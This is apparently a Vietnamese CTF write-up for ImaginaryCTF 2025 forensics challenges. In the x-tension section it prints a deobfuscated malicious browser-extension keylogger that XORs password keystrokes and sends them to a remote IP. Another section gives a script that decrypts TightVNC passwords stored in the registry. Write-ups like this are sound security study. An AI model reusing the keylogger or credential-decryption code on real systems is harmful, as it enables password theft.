# _ImaginaryCTF 2025_

## _Wave_



Dễ dàng lấy được flag




## _x-tension_




`Export objects` HTTP về thấy được chứa file `.crx`, ta đổi đuôi thành `.zip` rồi giải nén



Truy cập file `content.js` nhận được đoạn mã bị obfuscate, dùng tool làm đẹp và AI ta thu được đoạn mã sau

```js
function getKey() {
    const minute = new Date().getUTCMinutes();
    return String.fromCharCode(minute + 32);
}
function xorEncrypt(text, key) {
    let result = '';
    for (let i = 0; i < text.length; i++) {
        const charCode = text.charCodeAt(i);
        const keyCode = key.charCodeAt(0);
        const xor = charCode ^ keyCode;
        result += xor.toString(16).padStart(2, '0'); 
    }
    return result;
}
document.addEventListener("keydown", e => {
    const keyPressed = e.key;
    if (e.target.type === "password") {
        const char = keyPressed.length === 1 ? keyPressed : '';
        const key = getKey();
        const encrypted = xorEncrypt(char, key);
        const encoded = encodeURIComponent(encrypted);

        if (char) {
            fetch("http://192.9.137.137:42552/?t=" + encoded);
        }
    }
});
```

Đại loại đây là con `keylogger` thu thập bàn phím từ người dùng trong ô `password`, mỗi kí tự sẽ được `xor` với key được sinh ra bằng `minute UTC + 32` =>kí tự được gửi qua url `http://192.9.137.137:42552/?t=<hex_data>`. Tiến hành `crawl` toàn bộ tham số `URL` kèm với `UTC` để thực hiện việc decode dữ liệu => flag

Script solve

```python
data = """
t=5e
        Sat, 06 Sep 2025 02:23:02 GMT
t=54
        Sat, 06 Sep 2025 02:23:02 GMT
t=43
        Sat, 06 Sep 2025 02:23:03 GMT
t=51
        Sat, 06 Sep 2025 02:23:03 GMT
t=4c
        Sat, 06 Sep 2025 02:23:04 GMT
t=52
        Sat, 06 Sep 2025 02:23:04 GMT
t=4f
        Sat, 06 Sep 2025 02:23:05 GMT
t=43
        Sat, 06 Sep 2025 02:23:05 GMT
t=52
        Sat, 06 Sep 2025 02:23:06 GMT
t=59
        Sat, 06 Sep 2025 02:23:06 GMT
t=44
        Sat, 06 Sep 2025 02:23:06 GMT
t=5e
        Sat, 06 Sep 2025 02:23:06 GMT
t=58
        Sat, 06 Sep 2025 02:23:07 GMT
t=59
        Sat, 06 Sep 2025 02:23:07 GMT
t=44
        Sat, 06 Sep 2025 02:23:07 GMT
t=68
        Sat, 06 Sep 2025 02:23:08 GMT
t=5a
        Sat, 06 Sep 2025 02:23:08 GMT
t=5e
        Sat, 06 Sep 2025 02:23:08 GMT
t=50
        Sat, 06 Sep 2025 02:23:09 GMT
t=5f
        Sat, 06 Sep 2025 02:23:09 GMT
t=43
        Sat, 06 Sep 2025 02:23:09 GMT
t=68
        Sat, 06 Sep 2025 02:23:10 GMT
t=5d
        Sat, 06 Sep 2025 02:23:10 GMT
t=42
        Sat, 06 Sep 2025 02:23:11 GMT
t=44
        Sat, 06 Sep 2025 02:23:11 GMT
t=43
        Sat, 06 Sep 2025 02:23:11 GMT
t=68
        Sat, 06 Sep 2025 02:23:11 GMT
t=44
        Sat, 06 Sep 2025 02:23:12 GMT
t=42
        Sat, 06 Sep 2025 02:23:12 GMT
t=54
        Sat, 06 Sep 2025 02:23:12 GMT
t=5c
        Sat, 06 Sep 2025 02:23:12 GMT
t=4a
        Sat, 06 Sep 2025 02:23:13 GMT
"""

lines = [l.strip() for l in data.strip().splitlines() if l.strip()]
flag = []

for i in range(0, len(lines), 2):
    t_hex = lines[i].split("=")[1]
    date_line = lines[i+1]
    minute = int(date_line.split()[4].split(":")[1])
    key = minute + 32
    val = int(t_hex, 16) ^ key
    flag.append(chr(val))

print("".join(flag))
```

`FLAG: ictf{extensions_might_just_suck}`

## _obfuscated-1_



Theo mô tả của bài cần xác định `VNC password`



Bước đầu xác định user tải về `tightvnc`, tiến hành trích xuất `password` tại `NTUSER.DAT\Software\TightVNC\Server\Password`



`Password` được lưu dưới dạng DES-ECB với key cố định, nhờ AI viết script decode thôi

```python
from Crypto.Cipher import DES
def bit_reverse(byte):
    return int('{:08b}'.format(byte)[::-1], 2)

def vnc_decrypt_tight(hex_str):
    raw_key = [0x17, 0x52, 0x6B, 0x06, 0x23, 0x4E, 0x58, 0x07]
    key = bytes([bit_reverse(b) for b in raw_key])
    data = bytes.fromhex(hex_str.replace("-", ""))
    cipher = DES.new(key, DES.MODE_ECB)
    decrypted = cipher.decrypt(data)
    return decrypted.decode("utf-8", errors="ignore").rstrip("\x00")

hex_input = "7E-9B-31-12-48-B7-C8-A8"
print("Password:", vnc_decrypt_tight(hex_input))

```

`FLAG: ictf{Slay4U!!}`

## _Thrift store_



Mở file PCAP thấy toàn bộ traffic chạy trên localhost `(127.0.0.1)` sử dụng `Apache Thrift` (RPC framework).
- Các hàm được gọi gồm `createBasket`, `addToBasket`, `getBasket`, `getInventory`, `pay` → giống ứng dụng giỏ hàng



Mình đã `follow` theo payload, `crawl` dữ liệu trên file pcap về nhưng không nhận được gì, nên ý tưởng tiếp theo sẽ là tái tạo `client` gửi request và nhận flag từ server, Xem thêm tại [Apache Thrift](https://thrift.apache.org/).

Sau một hồi làm việc cùng AI thì mình có được file `.thrift` như sau

```
namespace py client

struct Basket {
  1: string basket,
}

struct GetBasketItem {
  1: string item,
  2: i8 count,
}

struct GetBasket {
  1: list<GetBasketItem> items,
}

struct InventoryItem {
  1: string item,
  2: string name,
  3: i64 number,
  4: string desc,
}

struct Inventory {
  1: list<InventoryItem> items,
}

struct PayResult {
  1: string flag,
}

service Test {
  Basket createBasket();
  void addToBasket(1:string basket, 2:string item);
  GetBasket getBasket(1:string basket);
  Inventory getInventory();
  PayResult pay(1:string basket, 2:i64 number);
}
```
```
Ý tưởng như sau:
- Basket createBasket();
→ Tạo một giỏ hàng mới, server trả về struct Basket (chứa ID).
- void addToBasket(1:string basket, 2:string item);
→ Thêm item vào giỏ basket.
- GetBasket getBasket(1:string basket);
→ Lấy danh sách item đang có trong giỏ hàng.
- Inventory getInventory();
→ Xem toàn bộ inventory. 
- void pay(1:string basket, 2:i64 number);
→ Thanh toán giỏ hàng với số tiền number. Nếu đúng thì sẽ trả về flag.
```

Sau đó mình cần có 1 file python để gọi đến server theo đúng API đã được định nghĩa trong `test.thrift`

```python
import sys
sys.path.append('gen-py')

from client import Test
from thrift import Thrift
from thrift.transport import TSocket, TTransport
from thrift.protocol import TBinaryProtocol

def main():
    transport = TSocket.TSocket('thrift-store.chal.imaginaryctf.org', 9090)
    transport = TTransport.TFramedTransport(transport)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)
    client = Test.Client(protocol)
    transport.open()
    basket = client.createBasket().basket
    print(f"[+] Created basket: {basket}")
    inventory = client.getInventory()
    flag_price = None
    for item in inventory.items:
        if item.item == "flag":
            flag_price = item.number
            print(f"[+] Found flag in inventory with price: {flag_price}")
            break

    if flag_price is None:
        print("[-] Flag not found in inventory!")
        return
    client.addToBasket(basket, "flag")
    print(f"[+] Basket now: {client.getBasket(basket)}")

    result = client.pay(basket, flag_price)
    print(f"[+] Server response: {result}")

    transport.close()

if __name__ == "__main__":
    main()

```

Chi tiết:

- Kết nối đến server Thrift ở thrift-store.chal.imaginaryctf.org:9090.
- Tạo một basket mới (giỏ hàng).
- Lấy danh sách inventory, dò xem item "flag" có giá bao nhiêu.
- Thêm flag vào giỏ, rồi gọi pay với đúng giá → server trả về flag.



`FLAG: ictf{l1k3_gRPC_bUt_l3ss_g0ogly}`

# _system-hardening-11_



https://docs.google.com/document/d/1nSoJefgduO1PPtYSzD0kZTx2Ip2NRcrYrvBIaPawJAA/edit?tab=t.0

## _Solution_

Trong giải làm được có bằng này ☠


Official writeups tại: [Solution Linux Mint](https://docs.google.com/document/d/1nSoJefgduO1PPtYSzD0kZTx2Ip2NRcrYrvBIaPawJAA/edit?tab=t.0).


